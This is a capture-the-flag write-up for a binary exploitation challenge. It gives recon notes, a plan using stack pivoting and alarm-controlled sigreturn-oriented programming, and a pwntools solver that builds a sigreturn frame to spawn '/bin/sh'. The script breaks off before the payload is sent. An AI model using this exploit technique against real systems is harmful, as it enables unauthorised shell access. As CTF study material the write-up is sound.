 Recon :

- Pie disabled : means we can pivot stack to BSS
- no libc given , challenge hints on SROP so thats mostly the plan
- no `pop rax` or any rax related and useful gadget so we have to somehow control rax .

Plan (the intended way) :

- the intended way to control rax was to use the `alarm` function right when there is 0xf (which is the sigreturn sytem call number) seconds left in the alarm . read about its return value here [link](https://man7.org/linux/man-pages/man2/alarm.2.html#RETURN_VALUE)
- we do some pivoting so we can set up the sigreturn frame and write "/bin/sh" at a known location in BSS
- we pivot then return to our ropchain that looks like this : alarm + syscall + sigframe
- concering the sigframe , we can ignore a l large number of useless registers as they dont concern us .

Solver :

```
from pwn import *
from time import sleep
context.arch = 'amd64'

def debug():
        if local<2:
                gdb.attach(p,'''
                        b* 0x0000000000401179
                           c
                        ''')
###############   files setup   ###############
local=len(sys.argv)
exe=ELF("./main")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
nc="nc localhost 5000"
port=int(nc.split(" ")[2])
host=nc.split(" ")[1]

############### remote or local ###############
if local>1:
        p=remote(host,port)
else:
        p=process([exe.path])

############### helper functions ##############
def send():
        pass

############### main exploit    ###############

main=exe.symbols["main"]
#debug()
rbp=0x0000000000404000+0xe00
p.send(b"a"*0x100+p64(rbp)+p64(main+31))
sleep(0.5)
alarm=0x0000000000401040
leave=0x00000000004011bb
syscall=0x0000000000401179

frame = SigreturnFrame()
frame.rax=0x3b
frame.rdi=0x404d78
frame.rsi=0
frame.rdx=0
frame.rip=syscall
frame.r15=u64("/bin/sh\x00")
```